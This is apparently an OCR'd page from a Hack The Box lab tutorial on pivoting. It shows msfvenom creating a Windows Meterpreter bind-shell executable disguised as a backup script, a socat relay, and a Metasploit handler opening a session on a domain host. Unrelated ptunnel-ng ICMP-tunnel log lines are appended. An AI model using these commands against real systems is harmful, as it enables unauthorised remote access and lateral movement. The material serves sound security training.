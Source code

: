 ![](https://academy.hackthebox.com/storage/modules/158/55.png)

We can create a bind shell using msfvenom with the below command.

#### Creating the Windows Payload

```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe

```

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

#### Starting Socat Bind Shell Listener

```shell
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443

```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

#### Configuring & Starting the Bind multi/handler

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080

```

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.

#### Establishing Meterpreter Session

```shell
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%